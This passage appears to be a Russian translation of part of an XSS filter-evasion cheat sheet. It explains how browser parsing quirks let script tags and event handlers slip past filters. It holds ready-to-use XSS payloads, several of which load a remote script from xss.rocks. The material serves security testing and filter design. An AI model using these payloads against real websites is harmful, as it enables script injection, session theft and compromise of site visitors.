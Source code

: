 ```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Основываясь на той же идее, что и выше, я, однако, расширил ее, используя Snake's fuzzer. Механизм рендеринга Gecko допускает использование любых символов, кроме букв, цифр или символов инкапсуляции (например, кавычек, угловых скобок и т.д.), между обработчиком событий и знаком равенства, что упрощает обход блоков межсайтового скриптинга. Обратите внимание, что это также относится к символу серьезного ударения, как показано здесь:

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Яир Амит отметил, что в движках рендеринга Trident (IE) и Gecko (Firefox) существует несколько иное поведение, которое позволяет использовать только косую черту между тегом и параметром без пробелов. Это может быть полезно при атаке, если система не допускает пробелов:

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### Посторонние открытые скобки

Этот XSS-вектор может обойти некоторые механизмы обнаружения, которые работают путем проверки совпадающих пар открытых и закрытых угловых скобок, а затем сравнения тега внутри, вместо более эффективного алгоритма, такого как [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm)  который ищет совпадения всей строки с открытой угловой скобкой и соответствующим тегом (после устранения путаницы, конечно). Двойная косая черта выделяет конечную внешнюю скобку, чтобы скрыть ошибку JavaScript:

```html
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

(Представлено Францем Седлмайером)

### Нет закрывающих тегов скрипта

В Firefox вам на самом деле не нужна часть `\></SCRIPT>` этого XSS-вектора, потому что Firefox предполагает, что закрывать HTML-тег безопасно, и добавляет закрывающие теги для вас. В отличие от следующей атаки, которая не затрагивает Firefox, этот метод не требует дополнительного HTML-кода под собой. При необходимости вы можете добавить кавычки, но обычно они не нужны:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### Разрешение протокола в тегах скрипта

Этот конкретный вариант частично основан на обходе разрешения протокола Oz, описанном ниже, и работает в IE и Edge в режиме совместимости. Однако это особенно полезно, когда возникает проблема с пространством, и, конечно, чем короче ваш домен, тем лучше. `.j` является допустимым, независимо от типа кодировки, потому что браузер знает его в контексте тега SCRIPT:

```html
<SCRIPT SRC=//xss.rocks/.j>
```
